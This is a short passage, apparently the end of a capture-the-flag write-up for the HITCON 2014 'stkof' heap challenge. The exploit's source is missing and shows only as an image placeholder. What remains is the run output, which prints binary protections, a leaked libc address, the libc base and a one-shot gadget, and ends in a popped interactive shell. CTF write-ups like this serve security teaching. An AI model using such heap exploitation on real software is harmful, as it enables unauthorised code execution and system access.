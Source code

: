 When we run it:

```
$ python exploit.py
[+] Starting local process './stkof': pid 28678
[*] '/home/guyinatuxedo/Desktop/hitcon14/stkof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/guyinatuxedo/Desktop/hitcon14/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
1
OK

2
OK

3
OK

4
OK

5
OK

6
OK

OK

OK

OK

OK

0x7f6a67af4130
...
OK

libc base: 0x7f6a67a70000
oneshot gadget: 0x7f6a67b602a4
OK

[*] Switching to interactive mode
$ w
 23:32:52 up 14:32,  1 user,  load average: 2.04, 1.68, 1.57
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               26Jun19 12days  1:43m  0.34s /sbin/upstart --user
$ ls
exploit.py  libc-2.23.so  stkof
```

<<<<<<< HEAD
Just like that we popped a shell!
=======
Just like that we popped a shell!
>>>>>>> 62e51517054901aa0b7fd1508d70dcb095961589
